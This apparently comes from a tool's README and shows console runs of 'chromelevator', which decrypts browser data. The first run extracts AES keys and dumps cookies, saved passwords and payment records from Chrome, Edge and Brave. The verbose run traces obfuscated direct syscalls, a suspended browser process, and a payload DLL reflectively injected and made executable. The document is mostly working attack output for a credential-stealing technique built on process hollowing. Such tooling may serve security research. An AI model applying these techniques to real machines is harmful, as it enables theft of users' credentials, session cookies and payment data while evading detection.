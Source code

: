 ```bash
PS> .\chromelevator.exe all
_________ .__                         ___________.__                       __
\_   ___ \|  |_________  ____   _____ \_   _____/|  |   _______  _______ _/  |_  ___________
/    \  \/|  |  \_  __ \/  _ \ /     \ |    __)_ |  | _/ __ \  \/ /\__  \\   __\/  _ \_  __ \
\     \___|   Y  \  | \(  <_> )  Y Y  \|        \|  |_\  ___/\   /  / __ \|  | (  <_> )  | \/
 \______  /___|  /__|   \____/|__|_|  /_______  /|____/\___  >\_/  (____  /__|  \____/|__|
        \/     \/                   \/        \/           \/           \/

 Direct Syscall-Based Reflective Hollowing
 x64 & ARM64 | v0.16.0 by @xaitax

[*] Processing 3 browser(s):

[*] Chrome
[+] AES Key: 3fa14dc988a34c85bdb872159b739634cb7e56f8e34449c1494297b9b629d094
[+] Extracted 481 cookies, 2 passwords and 1 payments from 2 profiles
[+] Stored in C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome

[*] Edge
[+] AES Key: b0334fad7f5805362cb4c44b144a95ab7a68f7346ef99eb3f175f09db08c8fd9
[+] Extracted 203 cookies and 2 passwords from 2 profiles
[+] Stored in C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Edge

[*] Brave
[+] AES Key: 5f5b1c8112fba445332a9b01a59349f1112426753bfee2c5908aab6c46982fcd
[+] Extracted 2484 cookies, 1028 passwords and 1 payments from 1 profile
[+] Stored in C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Brave

[*] Completed: 3 successful, 0 failed
```

#### Verbose

```bash
PS> .\chromelevator.exe chrome -v -f
_________ .__                         ___________.__                       __
\_   ___ \|  |_________  ____   _____ \_   _____/|  |   _______  _______ _/  |_  ___________
/    \  \/|  |  \_  __ \/  _ \ /     \ |    __)_ |  | _/ __ \  \/ /\__  \\   __\/  _ \_  __ \
\     \___|   Y  \  | \(  <_> )  Y Y  \|        \|  |_\  ___/\   /  / __ \|  | (  <_> )  | \/
 \______  /___|  /__|   \____/|__|_|  /_______  /|____/\___  >\_/  (____  /__|  \____/|__|
        \/     \/                   \/        \/           \/           \/

 Direct Syscall-Based Reflective Hollowing
 x64 & ARM64 | v0.16.0 by @xaitax

[#] Found and sorted 489 Zw* functions.
[#] Initialized 19 syscall stubs (with obfuscation).
[#] Obfuscation layer active - syscalls encrypted in memory
[#] Searching Registry for: chrome.exe
[#] Found at: C:\Program Files\Google\Chrome\Application\chrome.exe
[#] Scanning for and terminating browser network services...
[#] Creating suspended Chrome process.
[#] Target executable path: C:\Program Files\Google\Chrome\Application\chrome.exe
[#] Created suspended process PID: 21708
[#] Architecture match: Injector=ARM64, Target=ARM64
[#] Named pipe server created: \\.\pipe\chrome.sync.9707.22756.1BE8
[#] Loading and decrypting payload DLL.
[#] Parsing payload PE headers for ReflectiveLoader.
[#] ReflectiveLoader found at file offset: 0x17930
[#] Allocating memory for payload in target process.
[#] Combined memory for payload and parameters allocated at: 0x243d93a0000
[#] Writing payload DLL to target process.
[#] Writing pipe name parameter into the same allocation.
[#] Changing payload memory protection to executable.
```